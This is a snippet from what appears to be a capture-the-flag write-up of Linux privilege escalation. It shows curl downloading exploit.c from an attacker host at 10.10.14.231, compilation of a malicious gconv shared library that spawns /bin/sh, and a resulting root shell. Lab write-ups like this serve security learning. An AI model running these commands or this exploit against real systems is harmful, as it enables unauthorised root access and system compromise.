 ```bash
$ curl http://10.10.14.231:8000/exploit.c -o exploit.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   555  100   555    0     0   2720      0 --:--:-- --:--:-- --:--:--  2733
$ make
gcc -shared -o evil.so -fPIC evil-so.c
evil-so.c: In function ‘gconv_init’:
evil-so.c:10:2: warning: implicit declaration of function ‘setgroups’; did you mean ‘getgroups’? [-Wimplicit-function-declaration]
   10 |  setgroups(0);
      |  ^~~~~~~~~
      |  getgroups
evil-so.c:12:2: warning: null argument where non-null required (argument 2) [-Wnonnull]
   12 |  execve("/bin/sh", NULL, NULL);
      |  ^~~~~~
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:26:2: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   26 |  execve(BIN, argv, envp);
      |  ^~~~~~
      
### The files are made, now just run ./exploit
$ ls
asdf
evil.so
evil-so.c
exploit
exploit.c
linpeas.sh
makefile
multipath
rash

$ ./exploit
whoami
root
pwd
/dev/shm
cd /root
ls
root.txt
```
We are root
